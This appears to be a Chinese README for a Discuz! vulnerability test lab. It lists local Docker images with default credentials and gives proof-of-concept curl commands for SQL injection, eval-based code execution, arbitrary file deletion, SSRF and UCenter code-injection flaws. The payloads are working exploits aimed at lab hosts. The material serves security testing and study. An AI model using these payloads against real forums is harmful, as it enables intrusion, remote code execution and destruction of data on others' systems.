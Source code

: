 ## 环境说明

* src/discuz/x3.1
  * 后台地址http://127.0.0.1/admin.php
  * 管理员账号admin/admin
  * 测试账号test/123456
  * 更新日期20150609
* src/discuz/x3.0
  - 后台地址http://127.0.0.1/admin.php
  - 管理员账号admin/admin
  - 更新日期20130511

## faq.php gids 报错注入

测试镜像

* src/discuz/7.2/

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

## Discuz! 6.x/7.x 全局变量防御绕过漏洞

测试镜像

* src/discuz/7.2/

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

## birthprovince 任意文件删除

测试镜像

* src/discuz/x3.2/

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



## Discuz X门户文章功能SSRF漏洞

测试镜像

- src/discuz/x3.1

影响版本 

- Discuz X系列 <= X3.1

参考链接

- [Discuz X系列门户文章功能SSRF漏洞挖掘与分析](https://www.anquanke.com/post/id/84000)

Poc

使用测试账号test/123456登陆首页，访问url

```
http://172.17.0.2/forum.php?mod=redirect&goto=findpost&modthreadkey=1&ptid=1&pid=1
```

在跳转后的页面URL中包含modthreadkey参数，如：

```
http://172.17.0.2/forum.php?mod=viewthread&tid=1&page=1&modthreadkey=c3564b479d72b05e136e62e2af4762c4#pid1
```

在跳转后的页面源码中包含formhash参数，如：

```html
<input type="hidden" name="formhash" value="7d96833f" />
```

从控制台查看network获取当前cookie，并利用上述获取的两个参数，构造SSRF触发链接：

```
curl --cookie "获取的cookie" -d "a=a" "http://172.17.0.2/portal.php?mod=portalcp&ac=upload&aid=1&catid=1&op=downremotefile&formhash=7d96833f&modarticlekey=c3564b479d72b05e136e62e2af4762c4&content=%3Cimg%20src=http://172.17.0.1/test_ssrf%231.png%3E
```

其中参数formhash为页面源码中获取的formhash，modarticlekey为跳转链接中的modthreadkey参数，172.17.0.1为SSRF请求的目标机器IP，在该机器上监听80端口，执行以上curl即可触发SSRF



## Discuz X后台任意代码执行漏洞

测试镜像

- src/discuz/x3.1

影响版本 

- Discuz X系列 <= X3.3

参考链接

- [Discuz X3.3补丁安全分析](https://www.anquanke.com/post/id/86679)

Poc

使用管理员账号登录后台，在 站长->UCenter设置 页面 修改UCenter 数据库账号为shell_test 密码为 123');phpinfo();//  （该账号已预先添加至测试环境），提交后刷新该设置页面即可。



## Discuz X已知UCenter app_key代码执行漏洞

测试镜像

- src/discuz/x3.0

影响版本 

- Discuz X系列

参考链接

- [Discuz! X系列远程代码执行漏洞分析](https://www.secpulse.com/archives/35819.html)

Poc

（环境已修改api/uc.php用于生成app_key加密数据）

访问包含formhash的页面，获取其中的formhash的value值:

```
curl -c cookie.txt "http://172.17.0.2/forum.php" | grep 'formhash" value'
```

访问加密页面获取code:

```
curl "http://172.17.0.2/api/uc.php?encode=1" 
```

通过获取到的变量formhash和code构造并访问链接：

```
curl -X POST -b cookie.txt --data-raw "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>
<root>
    <item id=\"balabala\">
        <item id=\"findpattern\">/.*/e</item>
        <item id=\"replacement\">phpinfo();</item>
    </item>
</root>" "http://172.17.0.2/api/uc.php?formhash=dcac5793&code=0a54WTlZk7uY1TIjIKkpC7bkLgwxnAqnylWAKYTqnbWg0NGt20SBEAeKq6ibWeV81M2MHYFj%2FAd1t3hwZSc64hyG" && rm -f cookie.txt
```

使用管理员账号登录后台，在 用户->添加用户 页面添加任意用户触发命令执行